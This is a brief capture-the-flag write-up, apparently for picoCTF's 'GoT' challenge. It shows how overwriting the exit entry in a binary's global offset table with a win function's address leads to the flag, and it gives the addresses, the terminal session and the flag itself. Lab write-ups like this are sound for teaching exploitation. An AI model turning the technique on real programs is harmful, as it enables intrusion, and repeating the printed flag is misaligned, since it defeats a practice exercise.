 # GoT

Overwrite `exit` address in `.got.plt` with the address of `win` function

```
exit@got.plt 0x0804A01C -> 134520860
win 0x080485C6 -> 134514118
```

```
pico-2019-shell1:/problems/got_0_4521f0cfb186aab8acc47d9abe572bdb$ ./vuln
You can just overwrite an address, what can you do?

Input address

134520860
Input value?

134514118
The following line should print the flag

picoCTF{A_s0ng_0f_1C3_and_f1r3_09c9e483}
```

Flag: `picoCTF{A_s0ng_0f_1C3_and_f1r3_09c9e483}`
